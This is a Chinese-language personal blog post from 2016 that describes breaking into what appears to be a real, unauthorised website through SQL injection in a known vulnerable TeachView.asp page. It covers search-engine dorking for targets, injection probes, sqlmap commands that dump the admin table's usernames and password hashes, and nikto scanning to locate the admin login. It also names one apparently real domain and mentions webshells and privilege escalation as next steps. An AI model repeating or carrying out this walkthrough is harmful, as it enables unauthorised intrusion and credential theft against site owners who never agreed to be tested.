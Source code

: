 ```yaml
---
layout: post
title:  " 一次Sql注入记录"
categories: Hacker
tags:  sql hacker
---
```


* content
{:toc}

## 0x00 背景

菜鸟级别的sql注入。

## 0x01 踩点

现在sql注入的漏洞已经不太好找了，大部分的网站都对这方面做好了防范，因此如果你继续使用`inurl:asp?id=`这种语法来查找试点，其实也挺困难的，很大的可能是找了很久都找不到，打消积极性。

所幸有很多现有的漏洞，比如搜关键字`inurl:TeachView.asp`，这是一个已知的漏洞，很早前在乌云上就有了，但是还有很多带着漏洞的网站在运行，因此，在百度上一搜，大把大把的......





### sql注入漏洞检测三部曲

**第一步：**

```
http://www.example.com/TeachView.asp?id=1'
#网页应该会变化，一般出现个错误界面，里面有错误代码,比如下面的信息：
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'[Microsoft][ODBC Microsoft Access Driver] 语法错误 (操作符丢失) 在查询表达式 'id=1鈥' 中。/TeachView.asp，行 5
```

**第二步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=1
#网页应该是正常的。
```

**第三步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=2

#网页有出错了，但是和之前的不一样了。
ADODB.Field 错误 '80020009'BOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。/TeachView.asp，行 0

```

## 0x02 sql注入

sql注入分手工和工具注入。目前网上大部分都是教各种工具的用法，其实最好还是先自己尝试手动试一下，至少能了解大致的思路，比如怎么猜数据库名、字段，然后再使用工具。

### 手动注入举例

其实我也不怎么会手动注入，只是自己尝试几个后就用工具了，比较懒，以后看心情学了。很多猜测技巧，网上有现成的！

```
#举个小栗子，猜测表名
http://www.example.com/TeachView.asp?id=1 and (select count(*) from admin )>0
```

### sqlmap

当发现自己动手实在猜不出来结果后，直接上工具，kali自带sqlmap就够用，看一下帮助文档，开搞。

*下面记录，忽略大部分没用的信息，并且隐藏了所有我意识到的真实的数据。*

**先试下能不能看到所有数据库：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dbs

......

web server operating system: Windows 2003 or XPweb application technology: ASP.NET, 
Microsoft IIS 6.0, 
ASPback-end DBMS: Microsoft Access[02:15:55] [WARNING] on Microsoft Access 
it is not possible to enumerate databases (use only '--tables')
......

```

嗯，貌似不用枚举所有的db名称，但是知道了服务器的情况，剩了nmap自己扫了。貌似版本都很低，看来我也就配这种老系统了......

**那直接看一下表名：**

```
~$ sqlmap -u "http://www.yxqyxzx.com/TeachView.asp?id=1" --tables
......
[02:19:01] [INFO] fetching tables for database: 'Microsoft_Access_masterdb'[02:19:01] [INFO] fetching number of tables for database 'Microsoft_Access_masterdb'
......
[02:19:55] [INFO] retrieved: admin
......

```

我很好奇，之前都搜不出来db名，这次直接就默认了一个db的名字，个人猜测，sqlmap是通过这个web程序的权限来看数据库，那么通过这个web入口应该默认到这个数据库中。

数据表比较多，暂时只关注最主要的admin表。

**然后要尝试获取字段：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin

......
[02:53:46] [INFO] retrieved: id[02:53:52] [INFO] retrieved: adminname[02:55:08] [INFO] retrieved: adminpassword
......
```

**接着就是获取帐号密码：**

其实帐号可以自己猜一些，手动注入的时候可以试试，比如admin、administrator什么的，怎么手动获取密码我还不会。

```
sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin -C adminnamDatabase:
Microsoft_Access_masterdbTable: admin[2 entries]+----+-----+-----+------------------+----------+-----------+------------------+| id | url | num | title            | username | adminname | adminpassword    |+----+-----+-----+------------------+----------+-----------+------------------+| 1  | NULL | 198 | OY\x7f\x8es\x89- || admin    | 7a57a5a743894a0e || 4  | NULL | 472 | OY\x7f\x8es\x89- || admin2    | 7a57a5a743894a0e |

```

好了，现在获取到了帐号和密码的MD5值，然后上网解密一下就行了。

## 0x03 后台地址查找

查找后台地址的时候，我很靠谱的使用了手动查找，各种inurl就是搜不出来后台，最后看了一下kali里面有一个nikto，看一下帮助文档，感觉很傻瓜的样子。

```
~$ nikto -host http://www.example.com

- Nikto v2.1.6

---------------------------------------------------------------------------

+ Target IP:          *.*.*.*

+ Target Hostname:    www.example.com

+ Target Port:        *

+ Start Time:        2016-03-06 02:39:37 (GMT8)

---------------------------------------------------------------------------

......

+ Multiple index files found: /index.html, /index.asp

......

+ /admin/login.asp: Admin login page/section found.

+ /login.asp: Admin login page/section found.

......

```

**然后根据前面的帐号密码就可以很开心的进去了。**

## 0xFF 总结

个人感觉，上面记录的方法应该是非常不前卫的，因为大部分网站都很那找到这种漏洞了，但是思想应该还是比较相近的，可以学习一下整个思路，然后与时俱进地学习。

拿到管理员帐号后，可以做更多事，比如上传webshell、提权什么乱七八糟的，这就留到以后了。

第一次入侵成功后，其实没有什么成就感，也没有什么破坏欲，最大的感受就是，好坏就在一念之差了。



******
2016-03-06 22:00:00 hnds
******
